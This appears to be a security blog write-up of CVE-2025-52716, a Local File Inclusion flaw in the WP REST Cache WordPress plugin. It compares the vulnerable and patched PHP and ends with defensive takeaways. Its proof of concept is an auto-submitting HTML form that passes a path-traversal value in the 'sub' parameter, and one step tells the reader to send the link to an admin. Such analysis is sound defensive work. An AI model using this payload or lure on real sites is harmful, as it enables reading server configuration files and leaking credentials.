 # CVE-2025-52716 Analysis & POC


<!--more-->

## CVE & Basic Info

The **WP REST Cache** plugin version **≤ 2025.1.0** contains a **Local File Inclusion** vulnerability that allows an unauthenticated attacker to control the file parameter used in `include/require`, thereby injecting or reading local files on the server (e.g., configuration files containing credentials), leading to leakage of sensitive information and, in some configurations, possible code execution.

* **CVE ID**: [CVE-2025-52716](https://www.cve.org/CVERecord?id=CVE-2025-52716)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 2025.1.0
* **Patched Versions**: 2025.1.1
* **CVSS severity**: High (7.5)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress WP REST Cache Plugin](https://wordpress.org/plugins/wp-rest-cache/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **WP REST Cache**: **2025.1.0** (vulnerable) and **2025.1.1** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff/comparison tool to inspect differences between the two versions.

## Analysis

### Patch diff

**Vulnerable version**:

```php {filename="class-admin.php v2025.1.0" hl_lines=[4,10,12]}
public function settings_page() {
    $this->settings_panels = apply_filters( 'wp_rest_cache/settings_panels', $this->settings_panels );

    $sub = filter_input( INPUT_GET, 'sub', FILTER_SANITIZE_FULL_SPECIAL_CHARS );
    if ( empty( $sub ) ) {
        $sub = 'settings';
    }
    include_once __DIR__ . '/partials/header.php';
    if ( isset( $this->settings_panels[ $sub ]['template'] ) ) {
        include_once $this->settings_panels[ $sub ]['template'];
    } elseif ( file_exists( __DIR__ . '/partials/sub-' . $sub . '.php' ) ) {
        include_once __DIR__ . '/partials/sub-' . $sub . '.php';
    } else {
        include_once __DIR__ . '/partials/sub-settings.php';
    }
}
```

In the vulnerable version, `$sub` is the value returned by [`filter_input()`](https://www.php.net/manual/en/function.filter-input.php) taken from the GET parameter (`?sub=...`) in the URL using the filter [`FILTER_SANITIZE_FULL_SPECIAL_CHARS`](https://www.w3schools.com/php/filter_sanitize_special_chars.asp), which escapes `"<>&` and characters with ASCII values below 32. This filter does not remove `.` (46) or `/` (47).

`$sub` is concatenated into a string with the `'.php'` suffix and then `include_once`d without any protection against **LFI**.

**Patch**:

```php {filename="class-admin.php v2025.1.1" hl_lines=[4,9,10,11,12,16,18]}
public function settings_page() {
    $this->settings_panels = apply_filters( 'wp_rest_cache/settings_panels', $this->settings_panels );

    $sub = filter_input( INPUT_GET, 'sub', FILTER_SANITIZE_FULL_SPECIAL_CHARS );
    if ( empty( $sub ) ) {
        $sub = 'settings';
    }

    $potential_sub_file = __DIR__ . '/partials/sub-' . $sub . '.php';
    if ( dirname( $potential_sub_file ) !== __DIR__ . '/partials' ) {
        $sub = 'settings';
    }

    include_once __DIR__ . '/partials/header.php';
    if ( isset( $this->settings_panels[ $sub ]['template'] ) ) {
        include_once $this->settings_panels[ $sub ]['template'];
    } elseif ( file_exists( __DIR__ . '/partials/sub-' . $sub . '.php' ) ) {
        include_once __DIR__ . '/partials/sub-' . $sub . '.php';
    } else {
        include_once __DIR__ . '/partials/sub-settings.php';
    }
}
```

The patch adds a **check on the file location before include**, ensuring the file to be loaded is located within the `partials` directory. If a path outside that directory is detected (e.g., due to `../`), the plugin falls back to a safe default file. This eliminates the **LFI** vulnerability.

### Vulnerable Code

`settings_page()` is registered as the submenu callback:

```php {filename="class-admin.php v2025.1.0" hl_lines=[8,9]}
add_submenu_page(
    'options-general.php',
    'WP REST Cache',
    'WP REST Cache',
    $capability,
    'wp-rest-cache',
    [
        $this,
        'settings_page',
    ]
);
```

So when the endpoint

```http
GET /wp-admin/options-general.php?page=wp-rest-cache HTTP/1.1
```

is accessed, `settings_page()` is invoked.

## Exploit

### Proof of Concept (PoC)

#### Step 1

Create a web page with a form that automatically sends a request with the LFI payload

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <form action="http://localhost:80//wp-admin/options-general.php" method="get">
        <input type="text" name="page" value="wp-rest-cache">
        <input type="text" name="sub" value="/../../../../../../wp-cofnig">
    </form>
    <script>
        document.forms[0].submit()
    </script>
</body>
</html>
```

#### Step 2

Send the link to an admin or a privileged user

> [!WARNING]
> This vulnerability can only be exploited on **Windows**, because `file_exists()` handles paths differently between operating systems. On **Linux**, if the path includes a non-existent directory, the function returns `false`. On **Windows**, the same path may return `true`, allowing the condition check to be bypassed and the vulnerability to be triggered.

## Conclusion

WP REST Cache versions **≤ 2025.1.0** allow **Local File Inclusion** via the `sub` parameter. The patch in **2025.1.1** fixes the issue by validating the file location before including it—ensuring files are only loaded if they reside in the `partials` directory—thereby preventing path traversal/LFI.

## Key takeaways

* Concatenating request data directly into file paths risks LFI.
* Always validate the **real/resolved** file location (absolute path) before including.
* Restrict allowed files by comparing against an intended directory (whitelist) — this is more effective than merely sanitizing characters.
* Test on multiple platforms (Windows/Linux) since file-handling behavior can differ.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress WP REST Cache Plugin <= 2025.1.0 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/wp-rest-cache/vulnerability/wordpress-wp-rest-cache-2025-1-0-local-file-inclusion-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-20-cve-2025-52716/  

